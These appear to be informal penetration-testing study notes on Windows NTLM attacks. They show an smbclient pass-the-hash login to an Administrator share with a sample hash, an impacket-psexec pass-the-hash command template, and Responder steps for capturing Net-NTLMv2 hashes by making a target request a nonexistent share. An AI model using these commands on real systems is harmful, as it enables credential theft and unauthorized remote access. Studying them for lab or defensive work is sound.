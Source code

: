 smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
-U to set user
--pw-nt-hash to indicate hash

impacket-psexec -hashes <NTLM hash (LMHash:NTHash)> username@IP
if we only have NTLM we can fill LMHash with 32 0 


cracking Net-NTLMv2

needd target to start an auth process with Net-NTLMv2 

we use Responder tool

ip a 
retrieve a list of all local interface on kali

sudo responder -I <listening interface>
-I for listening interface

we now request a smb action for the windwos machine by diring a none existsing share

dir \\<ip>\test

responder should have captured the hash

